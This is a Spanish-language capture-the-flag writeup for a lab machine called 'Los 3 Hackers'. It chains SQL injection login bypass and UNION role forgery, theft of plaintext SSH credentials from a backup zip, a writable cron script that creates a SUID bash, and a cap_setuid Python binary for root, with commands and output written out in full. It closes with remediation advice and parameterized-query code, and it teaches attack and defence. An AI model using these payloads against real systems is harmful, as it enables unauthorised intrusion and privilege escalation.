

<div align="center">
  <h1>🎯 Writeup: Los 3 Hackers</h1>
  <p>
    
    
    
  </p>
</div>

> [!WARNING]
> **Aviso legal:** Este writeup documenta técnicas de explotación ofensiva para entornos de laboratorio y proyectos con autorización explícita. No utilices estas tácticas contra sistemas de terceros sin consentimiento formal.

---

## 📑 Índice

1. [Resumen de la cadena de ataque](#-resumen-de-la-cadena-de-ataque)
2. [Requisitos](#-requisitos)
3. [Fase 1: Reconocimiento](#-fase-1-reconocimiento)
4. [Fase 2: Enumeración web](#-fase-2-enumeración-web)
5. [Fase 3: SQL Injection (Bypass del login)](#-fase-3-sql-injection-bypass-del-login)
6. [Fase 4: UNION SELECT (Forjar la sesión)](#-fase-4-union-select-forjar-la-sesión)
7. [Fase 5: Extracción de credenciales SSH](#-fase-5-extracción-de-credenciales-ssh)
8. [Fase 6: RCE por SSH como redhacker](#-fase-6-rce-por-ssh-como-redhacker)
9. [Fase 7: Post-explotación y escalada a root](#-fase-7-post-explotación-y-escalada-a-root)
10. [Fase 8: Limpieza y persistencia](#-fase-8-limpieza)
11. [Flags](#-flags)
12. [Vulnerabilidades y remediación](#-vulnerabilidades-y-remediación)
13. [Troubleshooting](#-troubleshooting)

---

## 🧭 Resumen de la cadena de ataque



---

## 🧰 Requisitos

- **SO Recomendado:** Kali Linux, Parrot OS, Ubuntu o WSL.
- **Herramientas:** `nmap`, `curl`, `unzip`, `ssh`, `sshpass`, `feroxbuster` / `gobuster`.
- **Opcionales:** `whatweb`, `ffuf`, `nikto`, `flask-unsign`.

> [!TIP]
> **Instalación rápida de dependencias en Debian/Ubuntu/Kali:**
> ```bash
> sudo apt update && sudo apt install -y nmap curl unzip openssh-client sshpass feroxbuster whatweb
> ```

### Configuración del entorno de trabajo

```bash
mkdir -p ~/labs/los3hackers/{scans,loot}
cd ~/labs/los3hackers
export TARGET="172.17.0.3"
```

> [!NOTE]
> Si la máquina se está ejecutando localmente en Docker y no conoces la IP, puedes extraerla con:
> ```bash
> docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' los3hackers_container
> ```

---

## 🔎 Fase 1: Reconocimiento

### 1.1 Comprobar conectividad
```bash
ping -c 2 $TARGET
```

### 1.2 Escaneo completo de puertos TCP
```bash
nmap -p- -T4 --min-rate 2000 -oN scans/allports.txt $TARGET
```
**Salida esperada:**
```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 1.3 Detección de versiones y scripts básicos
```bash
nmap -p22,80 -sV -sC -oN scans/services.txt $TARGET
```
**Salida relevante:**
```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http    Gunicorn
|_http-title: Los 3 Hackers – Ayuda al Red Hacker
```

### 1.4 Identificación tecnológica
```bash
whatweb -a 3 http://$TARGET/
curl -sI http://$TARGET/
```
La cabecera `Server: gunicorn` en combinación con la estructura indica un backend desarrollado en **Python (Flask/Django)**.

---

## 🌐 Fase 2: Enumeración web

### 2.1 Análisis de la página principal
```bash
curl -s http://$TARGET/ -o loot/index.html
```
En el código fuente se identifican referencias clave:
```html
<a class="btn-help" href="/login">Ayudar al Red Hacker</a>

```

### 2.2 Fuzzing de directorios
Utilizando **feroxbuster**:
```bash
feroxbuster -u http://$TARGET/ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -t 40 -d 2 -q --no-state -o scans/ferox.txt
```

| Ruta | Código HTTP | Observación |
|------|-------------|-------------|
| `/` | `200 OK` | Landing page |
| `/login` | `200 OK` | Formulario de autenticación |
| `/logout` | `302 Found` | Destrucción de sesión |
| `/dashboard` | `302 Found` | Requiere autenticación |
| `/dashboard/backups` | `403 Forbidden` | Directorio restringido (Señuelo) |
| `/wow.zip` | `200/403` | Backup (Requiere sesión activa) |
| `/static/<path>` | `200 OK` | Assets estáticos |

### 2.3 Inspección del formulario de Login
```bash
curl -s http://$TARGET/login -o loot/login.html
grep -oiE '<form[^>]*>|<input[^>]*>' loot/login.html
```
El formulario envía las credenciales mediante método **POST** usando los parámetros `username` y `password`.

### 2.4 Análisis del Rate Limit
```bash
for i in {1..4}; do
  curl -s -d "username=test&password=test" http://$TARGET/login | grep -oiE 'Usuario o contraseña incorrectos|Demasiados intentos[^<]*'
done
```
**Comportamiento detectado:** Tras 3 intentos fallidos, el sistema bloquea la IP durante 30 segundos. Un login exitoso restablece el contador.

---

## 💉 Fase 3: SQL Injection (Bypass del login)

### 3.1 Análisis de la vulnerabilidad
El backend de Flask construye la consulta concatenando cadenas en lugar de utilizar consultas parametrizadas:
```sql
-- Código inseguro en el backend:
SELECT username, role FROM users WHERE username = '<username>' AND password = '<password>';
```
El filtro de seguridad implementado únicamente bloquea el operador lógico `OR`, pero **no sanitiza** los comentarios SQL (`--`, `#`) ni las declaraciones `UNION`.

### 3.2 Ejecución del bypass
Inyectamos el payload `admin'--` en el parámetro `username`:

```bash
curl -i -c loot/cookies.txt \
  --data-urlencode "username=admin'--" \
  --data-urlencode "password=x" \
  http://$TARGET/login
```
La consulta interpretada por el motor de base de datos se transforma en:
```sql
SELECT username, role FROM users WHERE username = 'admin'--' AND password = 'x';
```
El comentario `--` anula la validación de la contraseña, autenticando al usuario `admin`.

### 3.3 Extracción de la cookie de sesión
Respuesta del servidor:
```http
HTTP/1.1 302 FOUND
Location: [http://172.17.0.3/dashboard](http://172.17.0.3/dashboard)
Set-Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6ImFkbWluIn0...
```
El payload JWT decodificado revela: `{"role": "admin", "username": "admin"}`.

### 3.4 Captura de la flag del Dashboard
```bash
curl -s -b loot/cookies.txt http://$TARGET/dashboard -o loot/dashboard.html
grep -oE '\{[^}]*\}' loot/dashboard.html
```
🚩 **Flag capturada:** `{SQLi_bypass_r4t3_l1m1t_pwn3d}`

---

## 🧩 Fase 4: UNION SELECT (Forjar la sesión)

> [!NOTE]
> Esta fase demuestra el impacto total de la inyección SQL, permitiendo manipulación arbitraria de roles. No es estrictamente necesaria para alcanzar RCE.

Al determinar que la consulta original retorna **2 columnas**, podemos forjar sesiones:
```bash
curl -i -c loot/union_admin.txt \
  --data-urlencode "username=zzz' union select 'admin','superadmin'--" \
  --data-urlencode "password=x" \
  http://$TARGET/login
```
Esto nos asigna el rol de `superadmin` directamente en la cookie de sesión firmada por Flask. *(Nota: La ruta `/dashboard/backups` seguirá arrojando 403, sirviendo como rabbit hole).*

---

## 📦 Fase 5: Extracción de credenciales SSH

Con nuestra sesión válida, procedemos a descargar el archivo de backup identificado durante el fuzzing:

```bash
curl -s -b loot/cookies.txt http://$TARGET/wow.zip -o loot/wow.zip
file loot/wow.zip
unzip -o loot/wow.zip -d loot/wow/
cat loot/wow/permission.txt
```
**Contenido extraído:**
```text
redhacker:h4ck1NNN62026!!
```
> [!IMPORTANT]
> **Hallazgo Crítico:** Credenciales de acceso SSH almacenadas en texto plano dentro de un directorio accesible para cualquier usuario autenticado en la web.

---

## 🖥️ Fase 6: RCE por SSH como redhacker

### 6.1 Conexión interactiva
```bash
sshpass -p 'h4ck1NNN62026!!' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null redhacker@$TARGET
```

### 6.2 Verificación de acceso
```bash
redhacker@4dd061c4e632:~$ id
uid=1000(redhacker) gid=1000(redhacker) groups=1000(redhacker)
redhacker@4dd061c4e632:~$ uname -a
Linux 4dd061c4e632 ... x86_64 GNU/Linux
```
✅ **RCE Confirmado.**

---

## 🚀 Fase 7: Post-explotación y escalada a root

### 7.1 Pista inicial de redhacker
```bash
cat /home/redhacker/user.txt
```
> *"La próxima vez revisa el portal interno que tenemos, al menos yo lo ocupo para guardar la mia. - Blue"*

### 7.2 Descubrimiento del portal interno
Listamos los puertos locales en escucha:
```bash
ss -tlnp 2>/dev/null || netstat -tlnp 2>/dev/null
```
Se identifica un servicio en `127.0.0.1:5000`. Al no contar con `curl`, utilizamos Python para realizar la petición local:
```bash
python3 -c "import urllib.request; print(urllib.request.urlopen('[http://127.0.0.1:5000/](http://127.0.0.1:5000/)', timeout=5).read().decode())"
```
**Respuesta:**
```text
User  › bluehacker
Password › xKpIEAE3fkp--
```

### 7.3 Movimiento lateral a bluehacker
```bash
sshpass -p 'xKpIEAE3fkp--' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null bluehacker@$TARGET
```
Leemos la flag/pista:
```bash
cat ~/user.txt
```
> *"Black siempre ha sido desconfiado. Dice que las tareas importantes deben ejecutarse solas. Cada minuto comprueba que todo siga exactamente como él lo dejó."*

### 7.4 Abuso del Cron Job (Escalada a blackhacker)
Revisamos las tareas programadas:
```bash
cat /etc/cron.d/maintenance
# Salida: * * * * * blackhacker /opt/maintenance/m.sh

ls -la /opt/maintenance/m.sh
# Salida: -rwxrwxr-x 1 blackhacker bluehacker 124 ... /opt/maintenance/m.sh
```
El script `m.sh` es ejecutado cada minuto por `blackhacker` y nuestro usuario `bluehacker` tiene permisos de escritura (775).

**Inyección del Payload:**
Sobrescribimos el script para que genere una bash SUID al ejecutarse:
```bash
printf '%s\n' \
  '#!/bin/bash' \
  'cp /bin/bash /var/tmp/.bh' \
  'chown blackhacker:blackhacker /var/tmp/.bh' \
  'chmod 4755 /var/tmp/.bh' \
  > /opt/maintenance/m.sh
```
Esperamos un máximo de 60 segundos y ejecutamos la bash SUID:
```bash
/var/tmp/.bh -p
blackhacker-bash$ id
uid=1001(bluehacker) gid=1001(bluehacker) euid=1002(blackhacker)
```
Leemos la flag de blackhacker en `/home/blackhacker/user.txt`, la cual nos sugiere revisar los "privilegios".

### 7.5 Escalada final a Root vía Capabilities
Buscamos binarios con capabilities asignadas:
```bash
getcap -r / 2>/dev/null
# Salida: /usr/local/bin/syscheck cap_setuid=ep
```
El binario `/usr/local/bin/syscheck` es un intérprete de Python renombrado con la capability `cap_setuid` habilitada. 

Abusamos del intérprete para forzar el UID a 0 (root) y spawnear una shell:
```bash
/usr/local/bin/syscheck -c 'import os; os.setuid(0); os.system("/bin/bash")'
root-bash# id
uid=0(root) gid=1001(bluehacker) groups=1001(bluehacker)
```
🚩 **Leemos la flag final:**
```bash
cat /root/root.txt
```

---

## 🧹 Fase 8: Limpieza

Como buena práctica de Red Team, eliminamos rastros y restauramos la configuración:

```bash
# Restaurar m.sh (como bluehacker)
printf '%s\n' \
  '#!/bin/bash' \
  '# Script de mantenimiento - limpia archivos temporales' \
  'sleep 55' \
  'find /tmp -type f -mtime +1 -delete 2>/dev/null' \
  > /opt/maintenance/m.sh

# Eliminar binario SUID (como root)
rm -f /var/tmp/.bh
```

---

## 🏁 Flags

| Archivo / Ubicación | Contenido / Contexto |
|---------------------|----------------------|
| **Dashboard web** | `{SQLi_bypass_r4t3_l1m1t_pwn3d}` |
| `/home/redhacker/user.txt` | Pista hacia el portal interno de credenciales |
| `/home/bluehacker/user.txt` | Pista sobre la tarea automatizada de Black |
| `/home/blackhacker/user.txt` | Pista relacionada con escalamiento por Capabilities |
| `/root/root.txt` | Mensaje de finalización y victoria (IHATEFW) |

---

## 🛡️ Vulnerabilidades y remediación

| # | Severidad | Vulnerabilidad | Remediación recomendada |
|---|:---:|----------------|-------------------------|
| 1 | **Crítica** | SQL Injection (Bypass Autenticación) | Utilizar consultas parametrizadas (Prepared Statements) o un ORM confiable (ej. SQLAlchemy). |
| 2 | **Crítica** | Almacenamiento Inseguro de Credenciales | No incluir secretos en archivos de backup web. Implementar bóvedas de contraseñas. |
| 3 | **Alta** | Permisos Inseguros en Cron Jobs | Asignar la propiedad del script a `root:root` con permisos `755` y monitorizar la integridad (FIM). |
| 4 | **Alta** | Capabilities excesivas (`cap_setuid`) | Eliminar la capability del binario intérprete mediante `setcap -r /usr/local/bin/syscheck`. |
| 5 | **Media** | Rate Limiting Débil (3 / 30s) | Implementar bloqueo progresivo exponencial, CAPTCHA tras reintentos o bloqueos estrictos por IP/Cuenta. |

### 🔒 Implementación Segura (Backend Python/Flask)
```python
# ❌ PATRÓN VULNERABLE
query = f"SELECT username, role FROM users WHERE username = '{username}' AND password = '{password}'"

# ✅ PATRÓN SEGURO (Consultas parametrizadas)
cur.execute(
    "SELECT username, role FROM users WHERE username = ? AND password = ?",
    (username, password)
)
```
> [!IMPORTANT]
> Adicionalmente, las contraseñas en bases de datos productivas deben estar **siempre cifradas mediante algoritmos de hashing robustos** con salt (ej. Argon2id, bcrypt), previniendo su compromiso total en caso de inyección.

---

## 🧰 Troubleshooting

<details>
<summary><strong>Falla SSH: <code>REMOTE HOST IDENTIFICATION HAS CHANGED</code></strong></summary>

Borra la firma almacenada o usa una conexión limpia:
```bash
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null redhacker@$TARGET
```
</details>

<details>
<summary><strong>No encuentro el binario <code>curl</code> en la máquina víctima</strong></summary>

Los contenedores y sistemas endurecidos pueden carecer de binarios estándar. Utiliza módulos nativos de Python o Perl en su lugar:
```bash
python3 -c "import urllib.request; print(urllib.request.urlopen('[http://127.0.0.1:5000/').read().decode](http://127.0.0.1:5000/').read().decode)())"
```
</details>

<details>
<summary><strong>El Cron Job no me genera la Bash SUID (<code>/var/tmp/.bh</code>)</strong></summary>

- Ten en cuenta que la tarea se ejecuta al inicio de cada minuto (puedes tardar hasta 60s en ver el resultado).
- Verifica que escribiste correctamente la sintaxis de bash en `m.sh` utilizando rutas absolutas (`/bin/bash`).
</details>

---

<div align="center">
  <p><strong>📖 Referencias Metodológicas</strong></p>
  <a href="http://www.pentest-standard.org/">PTES Standard</a> • 
  <a href="https://owasp.org/www-community/attacks/SQL_Injection">OWASP SQLi</a> • 
  <a href="https://man7.org/linux/man-pages/man7/capabilities.7.html">Linux Capabilities</a>
</div>

> ✍️ **Writeup creado por Andrés Vallejo**.  
> *Consultor Senior en Ciberseguridad | Red Team Operative*  
> Si esta documentación te ha sido útil, apóyame con una ⭐ en el repositorio de GitHub.
